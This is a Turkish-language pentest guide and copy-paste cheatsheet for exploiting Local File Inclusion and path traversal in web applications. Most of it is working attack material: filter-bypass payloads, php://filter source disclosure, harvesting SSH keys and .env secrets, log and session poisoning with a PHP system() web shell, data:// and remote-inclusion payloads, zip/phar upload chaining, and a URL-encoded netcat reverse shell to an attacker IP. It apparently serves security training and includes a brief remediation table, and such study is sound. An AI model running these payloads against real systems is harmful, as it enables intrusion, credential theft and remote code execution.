

# 🔥 ULTIMATE LFI (Local File Inclusion) & Path Traversal Rehberi + Cheatsheet


**Tags:** `#cybersecurity` `#lfi` `#rfi` `#path_traversal` `#web_pentest` `#rce` `#cheatsheet` `#ultimate_guide`

---

> [!ABSTRACT] 🎯 Bu Rehber Ne İçerir?
> Kasadaki tüm LFI / Path Traversal notlarının (**TryHackMe, PortSwigger ve kişisel saha notları**) güncel siber güvenlik teknikleriyle (**PHP Filter Chains, `/proc/self/fd`, Log/Session Poisoning, Bypass Matrisi**) birleştirilmiş **Adım Adım Öğretici + Tek Bakışta Cheatsheet** sürümüdür.

---

## 🗺️ BÖLÜM 1: LFI Nedir? Nasıl Oluşur? (Temel Mantık & Türleri)

Geliştiriciler kullanıcıların sayfalar arasında gezinmesi (`home`, `about`, `contact`) veya dil seçmesi için URL'den dosya adı alır (`?page=about.php`). Eğer gelen girdi doğrulanmadan (**sanitization** yapılmadan) dosya dahil etme fonksiyonuna verilirse **LFI** oluşur.

```php
// Zafiyetli PHP Kodu:
if (isset($_GET['page'])) {
    $page = $_GET['page'];      // Filtre yok! Kullanıcıya körü körüne güveniliyor
    include($page);             // Saldırgan /etc/passwd verirse onu da açar/çalıştırır
    // include($page . '.php'); // Aktif olsaydı sonuna otomatik .php ekleyecekti
} else {
    include("home.php");
}
```

> [!NOTE] 💡 Kısa Not: Diller ve Zafiyetli Fonksiyonlar
> * **PHP:** `include()`, `require()`, `include_once()`, `require_once()`, `file_get_contents()`, `readfile()`, `fopen()`
> * **Python (Flask/Django):** `open()`, `os.path.join()`, `send_file()`
> * **Node.js (Express):** `fs.readFile()`, `res.sendFile()`, `path.join()`
> * **Java:** `new File()`, `FileInputStream()`, `RequestDispatcher.include()`

### 🧭 Path Traversal vs. LFI vs. RFI (Kritik Ayrım)

| Özellik | 📂 Path Traversal | ⚡ Local File Inclusion (LFI) | 🌍 Remote File Inclusion (RFI) |
| :--- | :--- | :--- | :--- |
| **Çalışma Mantığı** | Dosyayı sadece **okur** ve ham metin olarak ekrana basar. | Dosyayı `include()` / `require()` ile **çalıştırır (execute)**! | Dış sunucudaki (`http://saldirgan/cmd.txt`) dosyayı çekip **çalıştırır**. |
| **Etki Seviyesi** | Bilgi İfşası (`/etc/passwd`, `.env`, SSH key). | Bilgi İfşası **+ RCE** (Log/Session Poisoning, Wrapper). | Doğrudan **RCE** (Dosya içeriğini biz yazarız). |
| **Ön Koşul** | Girdi doğrulaması olmadan dosya okuma. | Girdi doğrulaması olmadan `include`/`require`. | `php.ini` içinde `allow_url_fopen = On` ve **`allow_url_include = On`**. |

### 🧬 LFI Türleri
1. **Basic / Unrestricted LFI:** Önek veya sonek yok (`?page=/etc/passwd` doğrudan çalışır).
2. **Prefix'li LFI:** Kod başına klasör ekler (`include("languages/" . $_GET['lang'])`). Mutlaka `../` ile dışarı çıkılmalıdır.
3. **Suffix'li LFI:** Kod sonuna `.php` ekler (`include($_GET['page'] . ".php")`). Null Byte (`%00`, PHP < 5.3.4) veya `php://filter` gerektirir.
4. **Filtered / Blacklist LFI:** `../` silinir (`str_replace`), `/etc/passwd` engellenir veya belirli bir klasörle başlama şartı konur.
5. **Blind LFI:** Hata mesajı veya dosya çıktısı ekrana basılmaz; yalnızca sayfa yanıt süresi, HTTP durum kodu (`200` vs `500`) veya **OOB / Wrapper** yan etkileriyle anlaşılır.

---

## 🗺️ SALDIRI MİMARİSİ (MERMAID)



---

## 🔍 BÖLÜM 2: Bir Sistemde LFI Nasıl Bulunur? (Adım Adım Metodoloji)

### Adım 1: Nerelere Bakılmalıdır? (Giriş Noktaları / Entry Points)
Ne zaman başka bir sayfayı, şablonu, dili veya dosyayı referans gösteren bir parametre görürsen **ampul yanmalı**:
* **URL (GET) Parametreleri:** `?page=`, `?file=`, `?lang=`, `?view=`, `?template=`, `?doc=`, `?include=`, `?path=`, `?filename=`, `?img=`, `?module=`, `?dir=`
* **POST Gövdesi:** Formların içindeki gizli (`<input type="hidden">`) veya görünür dosya/şablon alanları.
* **Cookie'ler:** `language=en`, `theme=dark`, `template=default` gibi değerler doğrudan `include()` içine girebilir!
* **HTTP Header'ları:** `User-Agent`, `Referer`, `X-Forwarded-For` *(özellikle loglama ve dinamik tema seçiminde)*.

> [!TIP] 💡 Kısa Not: Sadece Tarayıcıya Güvenme
> Adres çubuğu boşlukları ve özel karakterleri otomatik URL-encode eder, gizli POST/Cookie parametrelerini göstermez. **Burp Suite Repeater** veya `curl` kullanmak şarttır.

### Adım 2: Hata Mesajı & Parmak İzi Alma (Fingerprinting)
İlk payload olarak hemen `../../../../etc/passwd` atmadan önce, parametreye **var olmayan rastgele bir değer** gönder:
```text
?page=olmayan_dosya_123
```
Eğer PHP `Warning` dönerse tek bir hatadan **4 altın bilgi** alırsın:
```text
Warning: include(languages/olmayan_dosya_123.php): failed to open stream: No such file or directory in /var/www/html/app/index.php on line 12
```
1. **Önek (Prefix):** `languages/` → Başında sabit klasör var (`/` ile başlamak işe yaramaz, `../` şart).
2. **Sonek (Suffix):** `.php` → Sonuna otomatik uzantı ekleniyor (`php://filter` kullanırken `resource=config` şeklinde uzantısız yaz!).
3. **Dizin Derinliği (Webroot):** `/var/www/html/app/` → Kök dizine çıkmak için en az 4 seviye `../` gerekir. *(İpucu: Emin değilsen her zaman **8-10 tane `../`** koy; kök dizin `/` üstüne çıkılamadığı için sistem `/` içinde kalır ve zarar vermez.)*
4. **İşletim Sistemi:** `/` görüyorsan Linux, `\` veya `C:\` görüyorsan Windows.

### Adım 3: Otomatik Tarama (`ffuf` ile Fuzzing)
Manuel testten sonra gözden kaçan parametre veya dosyaları taramak için:
```bash
# Parametreye LFI wordlist'i ile fuzzing (hata boyutunu -fs ile mutlaka filtrele!)
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://<HEDEF_IP>/?page=FUZZ' -fs <HATA_BOYUTU>
```

---

## 🛡️ BÖLÜM 3: Filtreler ve Bypass Teknikleri

| Karşılaşılan Engel / Savunma | Nasıl Anlaşılır? | Bypass Payload'ı |
| :--- | :--- | :--- |
| **Hiçbir Filtre Yok** | Doğrudan çalışır | `../../../../../../../../etc/passwd` |
| **`../` Engelli (Mutlak Yol Açık)** | `../` hata verir ama `/` kabul edilir | `/etc/passwd` |
| **Tek Seferlik `../` Silme (`str_replace`)** | Hata çıktısında `../` silinmiş görünür | `....//....//....//....//etc/passwd` veya `..././..././` |
| **WAF / Karakter Filtresi** | `../` 403/400 dönüyor | `%2e%2e%2f` (URL Encode) veya `%252e%252e%252f` (Double URL Encode) |
| **Eski Unicode / Overlong UTF-8** | IIS / eski proxy sunucular | `..%c0%af` veya `..%ef%bc%8f` |
| **Zorunlu Başlangıç Klasörü** | Sadece `languages/` ile başlayanlar geçer | `languages/../../../../../etc/passwd` |
| **Zorunlu Uzantı (`.php`, `.png`)** | Sonuna otomatik uzantı eklenir | `../../../../etc/passwd%00` *(PHP < 5.3.4)* veya `php://filter` |
| **Kara Liste Kelime Engeli** | `/etc/passwd` birebir engelli | `/etc/passwd/.` veya `/etc/passwd/..` |

> [!WARNING] ⚠️ Null Byte (`%00`) Gerçeği
> `%00` hilesi C katmanında string'i kestiği için eski sistemlerde (PHP 5.3.4 öncesi) çalışır. Modern PHP'de kapatılmıştır; modern sistemlerde uzantı sorununu aşmak için `php://filter` veya `zip://` / `phar://` teknikleri kullanılır.

---

## 💀 BÖLÜM 4: LFI Bulduktan Sonra Ne Yapılır? (Exploitation & RCE)

LFI bulduğunda sadece `/etc/passwd` okuyup bırakma! Sırasıyla şu **5 aşamayı** uygula:

### 1️⃣ Kaynak Kod Okuma (`php://filter`)
Normal `?page=config.php` isteği PHP kodunu **çalıştırır**, ekrana şifre basmaz. Çalıştırmadan okumak için Base64 filtresi kullan:
```bash
curl -s "http://<HEDEF_IP>/?page=php://filter/read=convert.base64-encode/resource=config.php" | base64 -d
```
*(Eğer kod sonuna otomatik `.php` ekliyorsa `resource=config` yaz!)*

### 2️⃣ Kritik Dosya Avı (Credential & SSH Key Toplama)
`/etc/passwd` içinden `/bin/bash` veya `/bin/sh` shell'ine sahip kullanıcıları belirle, ardından şu dosyaları oku:
* **Linux:**
  * `/home/<user>/.ssh/id_rsa` → Bulursan `chmod 600 id_rsa && ssh -i id_rsa <user>@<IP>`
  * `/var/www/html/.env`, `config.php`, `wp-config.php`, `database.yml`
  * `/root/.bash_history`, `/home/<user>/.bash_history`
  * `/proc/self/environ` (Çalışan sürecin ortam değişkenleri ve `HTTP_USER_AGENT`), `/proc/version`, `/etc/hosts`
  * `/proc/self/fd/0`..`30` (Açık dosya tanımlayıcıları — bazen log veya gizli dosyalar buradan okunur)
* **Windows:**
  * `C:\Windows\win.ini`, `C:\boot.ini`, `C:\Windows\System32\drivers\etc\hosts`
  * `C:\inetpub\wwwroot\web.config`, `C:\xampp\apache\logs\access.log`

### 3️⃣ Log Poisoning $\rightarrow$ RCE (Shell Alma)
Okuyabildiğin bir log dosyası varsa (`/var/log/apache2/access.log`, `/var/log/nginx/access.log`, `/var/log/auth.log`):
1. **Zehirle (URL-encode olmaması için `curl -A` veya `nc` kullan!):**
   ```bash
   curl -s -A "<?php system(\$_GET['cmd']); ?>" http://<HEDEF_IP>/
   ```
   *(Alternatif: `nc <HEDEF_IP> 80` ile ham `GET /<?php system($_GET['cmd']); ?> HTTP/1.1` gönder.)*
2. **Tetikle:**
   ```bash
   curl -s "http://<HEDEF_IP>/?page=../../../../var/log/apache2/access.log&cmd=id"
   ```

> [!WARNING] ⚠️ Tarayıcı Adres Çubuğu Tuzağı
> Payload'ı doğrudan tarayıcı URL çubuğundan gönderirsen tarayıcı `<`, `>` karakterlerini `%3C`, `%3E` yapar ve PHP kodu logda **çalışmaz**. Her zaman `curl -A`, `nc` veya **Burp Repeater** kullan!

### 4️⃣ PHP Session Poisoning $\rightarrow$ RCE
Uygulama `$_SESSION` içine senin gönderdiğin bir veriyi kaydediyorsa:
1. Çerezdeki `PHPSESSID` değerini al (Örn: `abc123xyz`).
2. Zafiyetli/kayıtlı alana `<?php system($_GET['cmd']); ?>` gönder.
3. Session dosyasını LFI ile çağır:
   ```bash
   curl -s -b "PHPSESSID=abc123xyz" "http://<HEDEF_IP>/?page=/var/lib/php/sessions/sess_abc123xyz&cmd=id"
   ```
   *(Diğer yollar: `/tmp/sess_<ID>`, `/var/lib/php5/sess_<ID>`, Windows `C:\Windows\Temp\sess_<ID>`)*

### 5️⃣ Wrapper Zincirleri (`data://` & PHP Filter Chains) & RFI
* **`data://` + Base64 (Eğer `allow_url_include = On` ise):**
  ```bash
  # <?php system($_GET['cmd']); ?> -> PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
  curl -s "http://<HEDEF_IP>/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2b&cmd=id"
  ```
  *(Not: `&cmd=id` parametresini form input kutusuna değil, **URL'nin en sonuna** ekle; yoksa `invalid byte sequence` hatası alırsın!)*
* **PHP Filter Chains (Modern Teknik — Log/Session/RFI Yokken RCE):**
  * `allow_url_include = Off` ve hiçbir log dosyası okunamıyorsa bile, `php://filter` içinde `convert.iconv.*` karakter seti dönüşümleri zincirlenerek (`synacktiv/php_filter_chain_generator`) bellek içinde sıfırdan PHP kodu üretilip `include()` ile RCE alınabilir!
* **RFI (Eğer `allow_url_include = On` ise):**
  ```bash
  echo '<?php system($_GET["cmd"]); ?>' > rce.txt
  python3 -m http.server 8000   # VPN/tun0 IP'ni kullan!
  curl -s "http://<HEDEF_IP>/?page=http://<SENIN_TUN0_IP>:8000/rce.txt&cmd=id"
  ```

### 6️⃣ `zip://` & `phar://` Wrapper'ları (File Upload + LFI Birleşimi)
Uygulamada yalnızca resim/belge yüklemeye izin veren bir **File Upload** alanı ve bir **LFI** zafiyeti varsa (ve kod sonuna `.php` ekliyorsa):
1. `shell.php` dosyasını ZIP'le (`zip shell.jpg shell.php`) → sadece `.jpg` uzantısına izin veren upload formundan yükle.
2. LFI ile arşivin içindeki PHP dosyasını çalıştır (`#` karakteri URL-encode edilerek `%23` yazılır):
   ```bash
   curl -s "http://<HEDEF_IP>/?page=zip://uploads/shell.jpg%23shell&cmd=id"
   ```
   *(Not: Aynı mantık `phar://uploads/shell.jpg/shell` şeklinde de çalışır ve `.php` soneki ekleyen sistemleri doğrudan aşar.)*

### 7️⃣ Blind LFI (Hata Kapalıyken) & Alternatif Poisoning Vektörleri
* **Blind LFI (`display_errors = Off`):** Hata mesajı görünmüyorsa HTTP durum kodu (`200` vs `500`), yanıt boyutu farkı (`ffuf -fs`) veya var olan/olmayan dosya arasındaki yanıt süresi karşılaştırılır.
* **Alternatif Log/Mail Zehirleme Yolları:**
  * **SSH `auth.log`:** `ssh '<?php system($_GET["cmd"]); ?>'@<HEDEF_IP>` → `?page=../../../../var/log/auth.log&cmd=id`
  * **SMTP / Mail:** Hedef sunucuda mail servisi açıksa kullanıcıya PHP payload'ı içeren mail atıp `/var/mail/<kullanici>` dosyasını LFI ile dahil etmek.

### 8️⃣ PHP Dışı Sistemlerde Path Traversal Vektörleri
| Teknoloji / Sunucu | Özel Vektör / Tuzak | Örnek Payload |
| :--- | :--- | :--- |
| **🌐 Nginx (Off-by-Slash)** | `location /static` bloğu `/` ile bitmiyorsa (`alias /var/www/static/;`) | `http://<IP>/static../etc/passwd` |
| **☕ Java / Tomcat / Spring** | Path parametresi (`;`) ile normalizasyon atlatma | `..;/..;/..;/etc/passwd` |
| **🐍 Python (`os.path.join`)** | 2. argüman `/` ile başlarsa `BASE_DIR`'i tamamen sıfırlar! | `?file=/etc/passwd` |

---

## 🛡️ BÖLÜM 5: Güvenli Kodlama (Remediation)

| Katman | Yöntem | Açıklama |
| :---: | :--- | :--- |
| **0. Katman (En İyi)** | **Zero Filesystem Exposure** | Kullanıcıdan dosya adı alma; `?id=1` al ve veritabanından/diziden sabit yolu çek. |
| **1. Katman** | **Strict Allowlist** | Yalnızca izin verilen sabit değerleri (`in_array($page, $allowed)`) kabul et. |
| **2. Katman** | **Canonicalization** | `realpath()` / `getCanonicalPath()` ile `../` ve symlink'leri çözdükten sonra `startsWith(BASE_DIR . "/")` kontrolü yap. (`getAbsolutePath()` kullanma!) |

---

## ⚡ BÖLÜM 6: ULTIMATE LFI CHEATSHEET (Kopyala-Yapıştır)

```bash
# 1. Hata / Webroot Tespiti
curl -s "http://<IP>/?page=test_not_found_123"

# 2. Temel & Bypass Okumalar
?page=../../../../../../../../etc/passwd
?page=....//....//....//....//etc/passwd
?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
?page=languages/../../../../../etc/passwd
?page=/etc/passwd/.
?page=../../../../etc/passwd%00

# 3. PHP Kaynak Kod Okuma (Base64)
curl -s "http://<IP>/?page=php://filter/read=convert.base64-encode/resource=index.php" | base64 -d

# 4. Otomatik Fuzzing
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://<IP>/?page=FUZZ" -fs <SIZE>

# 5. Apache/Nginx Log Poisoning -> RCE
curl -s -A "<?php system(\$_GET['cmd']); ?>" http://<IP>/
curl -s "http://<IP>/?page=../../../../var/log/apache2/access.log&cmd=id"

# 6. PHP Session Poisoning -> RCE
curl -s -b "PHPSESSID=<ID>" "http://<IP>/?page=/var/lib/php/sessions/sess_<ID>&cmd=id"

# 7. Reverse Shell (Komut Çalıştıktan Sonra)
# Listener: nc -lvnp 4444
# URL encoded bash reverse shell:
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<TUN0_IP>%204444%20%3E%2Ftmp%2Ff
```

---

## 🏆 SENIOR FIELD TIPS & INDUSTRY REALITY

> [!EXAMPLE] 🧑‍💻 Senior Field Tips & Industry Reality
> * **Acemi Tuzağı:** `/etc/passwd` okuyup durmak, `php://filter` ile `config.php`/`.env` çekmemek veya `ffuf` çalıştırırken `-fs` koymayıp 5000 sahte pozitif arasında boğulmak.
> * **Senior Yaklaşımı:** Hata mesajından `prefix/suffix/derinlik` çıkarır $\rightarrow$ `php://filter` ile kaynak kod & DB şifrelerini çeker $\rightarrow$ `/etc/passwd` + `.ssh/id_rsa` + `.env` toplar $\rightarrow$ Log/Session Poisoning veya PHP Filter Chain ile RCE'ye yükseltir.

---

## 🌐 B2+ VOCABULARY LOG

* **Sanitization** (`/ˌsæn.ɪ.taɪˈzeɪ.ʃən/`): Kullanıcı girdisindeki tehlikeli karakterleri temizleme / arındırma işlemi.
* **Canonicalization** (`/kəˌnɒn.ɪ.kə.laɪˈzeɪ.ʃən/`): Bir dosya yolundaki `../`, `./` ve sembolik bağları çözerek tek ve standart mutlak yola indirgeme.
* **Poisoning** (`/ˈpɔɪ.zən.ɪŋ/`): Zehirleme; log veya oturum dosyası gibi güvenilir bir kaynağa çalıştırılabilir kod enjekte etme.
